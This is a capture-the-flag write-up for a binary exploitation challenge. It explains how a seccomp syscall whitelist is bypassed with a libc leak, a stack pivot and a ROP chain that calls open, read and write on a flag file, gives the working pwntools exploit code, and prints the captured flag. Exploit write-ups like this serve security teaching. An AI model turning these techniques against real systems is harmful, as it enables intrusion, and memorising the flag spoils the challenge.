

# Return to what's revenge
__Category__: Pwn   
__Points__: 442   

> My friends kept making fun of me, so I hardened my program even further!    
> The flag is located at /chal/flag.txt
> 
> `nc chal.duc.tf 30006`
>
> Attachement: [return-to-whats-revenge](./return-to-whats-revenge)

### Challenge Overview
This challenge was an extension of [Return to What](https://ctftime.org/task/13024), where you had to exploit a buffer-overflow with ROP to spawn a shell.   
Here is the core function of the binary:  
   

The only difference was that the new binary had a function named `sandbox()`   
which installed a BPF-program to create a whitelist of syscalls.

```c
void sandbox(void)

{
    sock_fprog prog;
    sock_filter filter [25];
    bpf_labels lab;
    
    filter[0].code = 32;
    filter[0].jt = '\0';
    filter[0].jf = '\0';
    filter[0].k = 4;
    [...]
    filter[23].code = 6;
    filter[23].jt = '\0';
    filter[23].jf = '\0';
    filter[23].k = 2147418112;
    filter[24].code = 6;
    filter[24].jt = '\0';
    filter[24].jf = '\0';
    filter[24].k = 0;
    bpf_resolve_jumps(&lab,filter,25);
    prog.len = 25;
    prog.filter = filter;
    prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
    prctl(PR_SET_SECCOMP,2,&prog);
    return;
}
```

The BPF-code did something like this:
```python
if dst in [15, 231, 60, 2, 0, 1, 12, 9, 10, 3]:
    return SECCOMP_RET_ALLOW
else:
    return SECCOMP_RET_KILL_THREAD
```
where `dst` holds the value of the system-call.   
This meant that only the following system-calls were allowed:
- sigreturn
- exit_group
- exit
- read
- write
- open
- close
- brk
- mmap
- mprotect

### Exploit Overview
First we had to leak some libc-pointers in order to get the correct libc-version. This could be done with a ROP-chain that calls `puts()` on some
.got entries. I went with `setvbuf`, `puts` and `gets` and got:
```
[*] setvbuf @ 0x7ff16e2742f0
[*] puts @ 0x7ff16e2739c0
[*] gets @ 0x7ff16e2730b0
```
Entering the offsets into a [libc-database](https://libc.rip) yielded
libc6_2.27-3ubuntu1_amd64.

Now that everything is set up we can come to the actual ROP-chains.
I used two ROP-chains, one for leaking libc-addresses and stack-pivoting and one to perform the actual syscalls.    
The first ROP-chain looked like this...
```python
conn.sendline(flat([
    b"A" * 56,
    GADGETS["pop rdi; ret"],
    p64(return_to_whats_revenge.got["setvbuf"]),
    p64(return_to_whats_revenge.plt["puts"]),
    GADGETS["pop rdi; ret"],
    p64(return_to_whats_revenge.got["puts"]),
    p64(return_to_whats_revenge.plt["puts"]),
    GADGETS["pop rdi; ret"],
    p64(return_to_whats_revenge.got["gets"]),
    p64(return_to_whats_revenge.plt["puts"]),
    GADGETS["pop rdi; ret"],
    p64(new_stack),
    p64(return_to_whats_revenge.plt["gets"]),
    GADGETS["pop rsp; pop r13; pop r14; pop r15; ret"],
    p64(new_stack)
]))
```
... leaking the three .got entries like above, writing a new
ROP-chain to `new_stack` which is directly after the .bss-section
(0x404050) and then doing a stack-pivot via `pop rsp` into that area.    
We can utilize the area behind .bss because the OS always allocates so-called _pages_
of memory, which are 4096 bytes in size. The .bss-section however takes up only 48 bytes leaving 4096 - 48 bytes allocated but unused. Enough room for small - medium sized ROP-chains.

The second ROP-chain looked like this:
```python
conn.sendline(flat([
    b"/chal/flag.txt".ljust(24, b"\x00"),
    GADGETS["ret"] * 5,
    
    # open("/chal/flag.txt", 0, 0) = 3
    GADGETS["pop rdi; ret"],
    p64(new_stack),
    GADGETS["pop rsi; pop r15; ret"],
    p64(0),
    p64(0),
    LIBC_GADGETS["pop rdx; ret"],
    p64(0),
    LIBC_GADGETS["pop rax; ret"],
    p64(2),
    LIBC_GADGETS["syscall; ret"],
    
    # read(3, new_stack, 64)
    LIBC_GADGETS["pop rax; ret"],
    p64(0),
    GADGETS["pop rdi; ret"],
    p64(3),
    GADGETS["pop rsi; pop r15; ret"],
    p64(new_stack),
    p64(0),
    LIBC_GADGETS["pop rdx; ret"],
    p64(64),
    LIBC_GADGETS["syscall; ret"],
    
    # write(1, new_stack, 64)
    LIBC_GADGETS["pop rax; ret"],
    p64(1),
    GADGETS["pop rdi; ret"],
    p64(1),
    GADGETS["pop rsi; pop r15; ret"],
    p64(new_stack),
    p64(0),
    LIBC_GADGETS["pop rdx; ret"],
    p64(64),
    LIBC_GADGETS["syscall; ret"]
]))
```
The first 24 bytes will go into `r13`, `r14` and `r15` (from the first
ROP-chain) and the 5 `ret`-gadgets will fill the first 64 bytes of the
new stack. After that we do an `open()`+`read()`+`write()` in the
usual manner. The buffer used for reading and writing are the first
64 bytes of the new stack. 

### Flag
DUCTF{secc0mp_noT_$tronk_eno0Gh!!@}
